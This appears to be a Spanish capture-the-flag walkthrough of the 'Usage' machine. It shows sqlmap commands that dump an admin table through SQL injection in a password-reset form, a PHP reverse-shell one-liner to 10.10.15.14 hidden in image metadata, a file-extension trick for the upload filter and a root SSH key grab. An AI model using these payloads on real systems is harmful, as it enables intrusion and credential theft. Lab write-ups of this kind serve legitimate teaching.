

---
tags:
  - Usage
---

# Usage
## Etapa de escaneo
Se realizo un escaneo básico al sistema para detectar rápidamente lo necesario

Con esto concluimos que sera explotación web, pues todo lo que se encontró indica estar en web.

---
## Etapa de exploración web
Al investigar un poco por la web, me doy cuenta que pudiera existir un método para quizá no acceder pero si ver usuarios desde la "BD" con un intento de "Sql Injection".

Evidentemente por comodidad, haremos el secuestro del post desde burpsuite, que usaremos posteriormente para el ataque "Sql Injection", todo desde la sección "Restaurar contraseña":

---
## Etapa de ataque "Sql Injection"
Interceptamos el "POST" con BurpSuite:

Guardamos ese "POST" en un archivo para usarlo con "Sqlmap" y utilizamos el siguiente comando:

~~~
sqlmap -r POST.txt -p email --level 5 --risk 3 --batch --threads 10 --dbs
~~~

Una ves que logramos tener acceso, procedemos entonces a la enumeración de datos en la BD:

~~~
sqlmap -r POST.txt -p email --level 5 --risk 3 --batch --threads 10 -D usage_blog --tables
~~~

~~~
sqlmap -r POST.txt -p email --level 5 --risk 3 --batch --threads 10 -D usage_blog -T user_admins --dump
~~~

---
## Etapa de exploración web para explotación
Ahora que ya tenemos acceso al dashboard, notamos que en "settings" existen datos de entrada de imágenes y poco más, aquí realmente podemos intuir que hay una forma de tener acceso remoto pero no de una forma común, debido a que la entrada de datos es para imágenes, así que tendremos que tocar los meta datos de una imagen "jpg" e introducir desde ahí la "revershell".

~~~
<?php echo shell_exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.15.14/1234 0>&1'"); ?>
~~~

Colocamos el comando anterior en los meta datos de una imagen y procedemos a subirla al servidor, una vez que el servidor la obtenga solo es cuestión de refrescar la página para que la imagen se ejecute en el servidor

Evidentemente hacemos unos retoques a la entrada de datos para que el servidor los acepte, como por ejemplo, que acepte cualquier tipo de archivo de imágenes en caso de que no estés seguro de tener una imagen ".jpg", cambiamos el nombre de nuestro archivo "php.jpg" por "php.jpg.php" para que se envié como un ".php".

---
## Etapa de exploración del sistema
Notamos que hay una herramienta dentro del sistema que si ejecutamos con permisos elevados de privilegios, obtendremos las llaves del ssh root o "id_rsa" que sera nuestro acceso remoto para root, una vez explotada esta "vulnerabilidad" ya tenemos acceso a todo.